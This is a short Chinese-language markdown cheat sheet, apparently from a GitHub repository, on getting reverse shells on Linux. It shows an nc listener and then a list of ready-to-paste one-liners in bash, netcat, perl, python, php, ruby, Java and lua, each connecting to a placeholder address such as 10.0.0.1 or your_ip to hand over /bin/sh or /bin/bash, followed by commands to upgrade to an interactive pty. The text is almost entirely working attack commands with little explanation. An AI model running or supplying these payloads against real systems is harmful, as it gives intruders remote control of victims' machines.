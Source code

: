 # Linux环境中反弹shell
`@Time   : 2021/5/8 下午3:58`
`@Author : 852782749@qq.com`


```
开始编辑～
```
# 说明
```angular2html
主要涉及到nc的应用 

```

### 远程服务器开启端口监听
```angular2html
nc -l 12345
```
### 目标服务器linux反弹shell
```angular2html
nc your_ip your_port -e /bin/bash 

bash -I >& /dev/tcp/your_ip/your_port 0>&1


perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 获取shell窗口(交互式shell界面，可以根据目标环境中选择相应的命令)
```angular2html
script /dev/null

python -c 'import pty; pty.spawn("/bin/bash")' 

```


> 乾坤未定，你我皆是黑马
